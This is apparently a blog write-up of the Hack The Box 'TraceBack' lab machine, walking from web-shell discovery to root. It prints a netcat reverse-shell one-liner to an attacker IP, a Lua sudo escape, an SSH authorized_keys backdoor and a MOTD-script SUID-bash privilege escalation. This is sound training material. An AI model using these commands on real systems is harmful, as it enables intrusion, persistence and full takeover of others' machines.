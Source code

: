 ```yaml
---
layout: post
title: Hack The Box - TraceBack Writeup
date: 2024-09-29 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![tracebackBadge.png](/assets/img/TraceBack/tracebackBadge.png)

## Summary

TraceBack is an easy difficulty machine with the theme of tracing hackers steps in the already compromised system. Initial foothold starts of by finding comment in the source code of website, which hints at potential presence of web-shell backdoor on the system. By using appropriate wordlist we can discover that hacker left a `smevk.php` backdoor accessible for anyone. After providing default credentials we can leverage this backdoor to get initial foothold as user `webadmin`. User `webadmin` can run `/home/sysadmin/luvit` binary with `sysadmin` privileges. By providing malicious `lua` script as argument for this binary it is possible to execute arbitrary system commands and get foothold as user `sysadmin`. Information gathering as `sysadmin` revealed that `/etc/udpate-motd.d/` directory is owned by root and writable by group `sysadmin` which we are a part of. It is possible add arbitrary commands to `/etc/update-motd.d/00-header` and after user log in to system, they will be executed. I was able to exploit this by adding command which adds `suid` bit to `bash` binary. After logging in by using SSH backdoor, the command was triggered and I spawned bash shell with root privileges. 


___
## Reconnaissance

### Nmap

```
nmap -sC -sV -p- -oN nmapAll.txt --max-retries=1 10.10.10.181
```

```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp    open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.10.181 | **TCP**: 22, 80 |

#### Port 80

##### Technology

```
Apache httpd 2.4.29
```

##### Web Content Discovery

![80.png](/assets/img/TraceBack/80.png)

Source code:
```
</head>
<body>
	<center>
		<h1>This site has been owned</h1>
		<h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
		<h3> - Xh4H - </h3>
		<!--Some of the best web shells that you might need ;)-->
	</center>
</body>
</html>
```

Based on the information provided in the source code of the website I started looking for web shell backdoors. I ran `ffuf` with appropriate wordlist containing known web-shell backdoors. 

```
ffuf -w /opt/essentials/wordlists/seclists/Web-Shells/backdoor_list.txt -u http://10.10.10.181/FUZZ -ic
```

![fuff.png](/assets/img/TraceBack/fuff.png)

Results proved that I was on the right track and revealed that there is `smevk.php` backdoor accessible on the website. 

___
## Exploitation

### smevk.php - backdoor

When I accessed `smevk.php` on the website, I got prompted for password. By searching for [smevk](https://github.com/TheBinitGhimire/Web-Shells/blob/master/PHP/smevk.php) github repository we can find default credentials which are `admin : admin`.

![smevk.png](/assets/img/TraceBack/smevk.png)

There are numerous ways to leverage this web-shell to get initial access on the machine. I decided to simply execute reverse shell payload:

Payload:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.27 7003 >/tmp/f
```

![smevkConsole.png](/assets/img/TraceBack/smevkConsole.png)

### Initial Foothold

After successful execution I got reverse shell connection on the victim machine.

![reverseShell.png](/assets/img/TraceBack/reverseShell.png)

_____
## Post Exploitation

### Information Gathering

After getting initial foothold as user `webadmin`, I decided to inspect home directory for some interesting files. There is a interesting note from `sysadmin` stating that there should be a tool for practicing Lua accessible to us. 

![note.png](/assets/img/TraceBack/note.png)


Running `sudo -l` command revealed that we can run `/home/sysadmin/luvit` binary with `sysadmin` privileges. This suggests a potential opportunity for lateral movement if we can exploit this. 

![sudoL.png](/assets/img/TraceBack/sudoL.png)

### Lateral Movement

Looking at the usage of the `luvit` binary we can see that it expects us to provide `lua` script. 

```
sudo -u sysadmin /home/sysadmin/luvit -h
```

```
Usage: /home/sysadmin/luvit [options] script.lua [arguments]

  Options:
    -h, --help          Print this help screen.
    -v, --version       Print the version.
    -e code_chunk       Evaluate code chunk and print result.
    -i, --interactive   Enter interactive repl after executing script.
    -n, --no-color      Disable colors.
    -c, --16-colors     Use simple ANSI colors
    -C, --256-colors    Use 256-mode ANSI colors
                        (Note, if no script is provided, a repl is run instead.)
```

To exploit this, it is possible to create malicious `lua` script which will execute system commands with `sysadmin` privileges. I created simple `lateral.lua` script which will spawn bash shell.

```
echo 'os.execute("/bin/bash")' > lateral.lua
```

```
sudo -u sysadmin /home/sysadmin/luvit lateral.lua
```

![lateralMovement.png](/assets/img/TraceBack/lateralMovement.png)

After executing this script we get a shell spawned with `sysadmin` privileges. 
#### Creating SSH backdoor

Now with the access to machine as user `sysadmin` we should create some sort of backdoor to establish persistence on the machine. 

```
ssh-keygen -t rsa
```

```
echo <<CONTENTS OF PUBLIC KEY>> > /home/sysadmin/.ssh/authorized_keys
```

```
chmod 600 id_rsa
```

```
ssh -i id_rsa sysadmin@10.10.10.181
```

![sysadminShell.png](/assets/img/TraceBack/sysadminShell.png)

![userFlag.png](/assets/img/TraceBack/userFlag.png)

### Privilege Escalation

#### Information Gathering

Running `Linpeas` revealed that `/etc/udpate-motd.d/` directory is writable by group `sysadmin` which we are a part of.  

![linpeas2.png](/assets/img/TraceBack/linpeas2.png)

All files inside this directory are owned by root so any code executed inside will be executed with  root privileges. 

![motdGroups.png](/assets/img/TraceBack/motdGroups.png)

#### MOTD

`/etc/update-motd.d/` is used to generate the dynamic message of the day (MOTD) that is displayed to users when they log in to the system. According to this [article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/), we can simply add arbitrary commands to `/etc/update-motd.d/00-header` and after user log in to system they, will be executed. 

Executing this particular command will result in adding `suid` bit to `bash` binary:

```
echo "cp /bin/bash /home/sysadmin/bash && chmod u+s /home/sysadmin/bash" >> /etc/update-motd.d/00-header
```

After logging in with our generated key we can see that `bash` binary was indeed copied to our home directory. By leveraging fact that the `suid` bit was added, we can escalate our privileges by running `bash` with `-p` flag. 

![escalation.png](/assets/img/TraceBack/escalation.png)

![rootFlagFinal.png](/assets/img/TraceBack/rootFlagFinal.png)

